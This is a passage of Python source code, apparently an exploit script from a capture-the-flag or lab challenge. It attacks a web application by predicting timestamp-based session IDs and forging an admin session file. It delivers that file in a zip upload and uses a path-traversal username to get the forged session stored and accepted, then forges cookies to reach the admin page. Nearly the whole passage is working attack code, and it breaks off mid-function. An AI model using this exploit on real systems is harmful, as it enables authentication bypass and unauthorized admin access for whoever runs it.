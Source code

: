 ```python
PASSWORD = "abc"
EXPLOIT_USERNAME = f"../../../../../app/service/files/{USERNAME}"
# ==================================================== 

s = requests.Session() 

def predict_session_ids(target_time):
   ts = int(target_time.timestamp())
   return hashlib.sha256(str(ts).encode()).hexdigest()

def create_fake_session_files(session_id, output_dir="./exploit"):
    os.makedirs(output_dir, exist_ok=True)
    content = {"username":"test","id":1,"role":"admin"}
    path = os.path.join(output_dir, session_id)
    with open(path, "w") as f:
        json.dump(content, f)
    return path 

def create_zip(file_path, zip_path="./exploit/exploit.zip"):
    with zipfile.ZipFile(zip_path, "w") as zipf: 
        zipf.write(file_path, os.path.basename(file_path))
    return zip_path 

def register_account(username, password):
    return requests.post(f"{BASE_URL}/register", json={"username":username, "password":password})

def login(username, password):
    return requests.post(f"{BASE_URL}/login", json={"username":username, "password":password}, allow_redirects=False)

def upload_zip(cookies, zip_path):
    with open(zip_path, "rb") as f:
        files = {"archive": ("payload.zip", f, "application/zip")}
        return requests.post(f"{BASE_URL}/user/upload", files=files, cookies=cookies)

def trigger_session_storage(target_time):
    wait_s = (target_time - datetime.now()).total_seconds()
    if wait_s > 0:
        print(f"✅ Waiting {wait_s:.2f}s until {target_time} ...")
        time.sleep(wait_s)
    data = {"username": EXPLOIT_USERNAME, "password":"x"}
    return requests.post(f"{BASE_URL}/login", json=data)

def access_admin_page(username, password):
    print(f"✨ Logging in with regular account: {username}")
    login_data = {
        "username": username,
        "password": password
    }
    login_response = requests.post(f"{BASE_URL}/login", json=login_data, allow_redirects=False)
    if login_response.status_code != 302:
        print(f"❌ Login failed with status code: {login_response.status_code}")
        return 
    cookies = login_response.cookies
    session_cookie = cookies.get('session')
    username_cookie = cookies.get('username')
    
    print(f"✅ Successfully logged in - Session: {session_cookie}, Username: {username_cookie}")
    
    cookies_dict = {
        "session": session_cookie,
        "username": EXPLOIT_USERNAME
    }
```